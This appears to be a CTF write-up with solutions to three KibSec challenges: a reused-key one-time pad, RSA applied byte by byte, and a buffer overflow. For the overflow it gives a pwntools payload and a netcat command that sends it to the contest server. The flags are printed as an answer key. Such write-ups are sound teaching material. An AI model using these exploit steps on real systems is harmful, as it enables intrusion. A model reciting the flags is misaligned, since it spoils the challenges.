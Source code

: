 pls help"<br>
file: source.py

### Solution
This is a vulnerable OTP because same key is used for multiple encryptions. Basically to get the key you XOR c1 and c2. Then it is just a guessing game. Since you know the plain text of the firs cypher you can decode the second message, aka. the flag. Useful online tool: [link](https://www.tausquared.net/pages/ctf/twotimepad).

Flag: **KibSec{aesesaesasseassaseaseaeeae}**

## Rivest, Shamir, Adleman
### Materials
hint: "can you do the thing?"<br>
files: source.py, encrypted_data

### Solution
RSA is breakable because bytes of data are used from the original file and then each byte is encrpyted. Hence, it is easy to brute force because we only have to try [0,255] bytes for each block. Original encrypted file was a PNG file containing the flag.

Flag: **KibSec{sk0lsk1_rS4_j3_t0t4Ln1_G4s}**

## CORRUPTOR
### Materials
hint: "remote: pwn.kibsecctf.xfer.hr 1337"<br>
files: corruptor.zip

### Solution
Using pwngdb or gdb, get the address of _magic_ int variable. Calculate offset from _magic_ to _buf_ and then create payload that will overwrite value in magic variable.<br>
PAYLOAD:<br>
```
from pwn import *

payload  = b"yes\x00"
payload += b"A" * (36 - len(payload))
payload += p32(0xdeadbeef)
payload += b"B" * (128 - len(payload))

with open("payload.bin", "wb") as f:
    f.write(payload)
```
Then, just send it with netcat:
```
cat payload.bin | nc pwn.kibsecctf.xfer.hr 1337
```
And we get the flag:<br>
_**KibSec{girl_youll_be_a_pwner_soon}**_
